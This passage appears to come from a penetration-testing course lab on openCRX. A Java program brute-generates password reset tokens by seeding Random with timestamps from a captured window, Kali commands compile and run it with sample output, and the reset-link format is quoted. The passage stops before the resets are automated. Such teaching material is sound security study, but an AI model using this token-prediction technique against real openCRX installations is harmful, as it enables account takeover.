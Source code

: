 import java.util.Random;
  
public class OpenCRXToken {
  
  public static void main(String args[]) {
    int length = 40;
    long start = Long.parseLong("1582038122371");
    long stop = Long.parseLong("1582038122769");
    String token = "";
  
    for (long l = start; l < stop; l++) {
      token = getRandomBase62(length, l);
      System.out.println(token);
    }
  }
  
  public static String getRandomBase62(int length, long seed) {
  
  }
}
Listing 18 - OpenCRXToken.java

We will set the start and stop values which are based on the timestamps from when we ran curl in Listing 15. Finally, we will copy the contents of the getRandomBase62 method from org.opencrx.kernel.utils.Util.java and modify it to use the seed value passed in to the method. Please note that for the sake of brevity, the function content is not included in the listing above.

Once the values are set, we can compile the program with javac and run it with java, redirecting the output into a text file. We will also tail the file to make sure the tokens were written correctly.

kali@kali:~/opencrx$ javac OpenCRXToken.java 

kali@kali:~/opencrx$ java OpenCRXToken > tokens.txt

kali@kali:~/opencrx$ tail tokens.txt
SCKF9pp15wUrAZj84eC7m3Z1P5PexTb9wUetcF4T
OA1Otn7zkpspZ7pa3kIxSFsKcRdRelTKaQhmPkf3
aAycQmACHCk1cSdI4YKwnf8m464bmo2xjRtWldPY
1C8wnnzbg47SPVBE55G1mMNOi5k8NeK3KSHEhwEz
DA5AKo2oCR1dTp0u3uH07obqAkBIVhugTRTz3ryV
88mJ3mJmtLNZpN5M5zOqmzu9N7P5Axls7NXrqJZ5
K8iXdlOxPjGlvhu45nPp6QAdplpEK2LVEMieCEIb
l8srznDOnZdCgkSy4MLv67PEWlWkvqdbrP7J7X84
x8p5WnGZLwVOm4Hg4BMuRXdgySxv3vCE0OJ4UQqZ
vMSsitoJwnrHnfB00BneUoeGxMxiQPj3UjkCnBNi
Listing 19 - Compiling and running OpenCRXToken

With our token list generated, we'll next determine how to leverage it to complete the password reset process.

##### 
Automating Resets
When we examined the source code in UserHomes.class, we found the format of a reset link:

 String resetConfirmUrl = webAccessUrl + (webAccessUrl.endsWith("/") ? "" : "/") + "PasswordResetConfirm.jsp?t=" + resetToken + "&p=" + providerName + "&s=" + segmentName + "&id=" + principalName;
Listing 20 - Password reset link
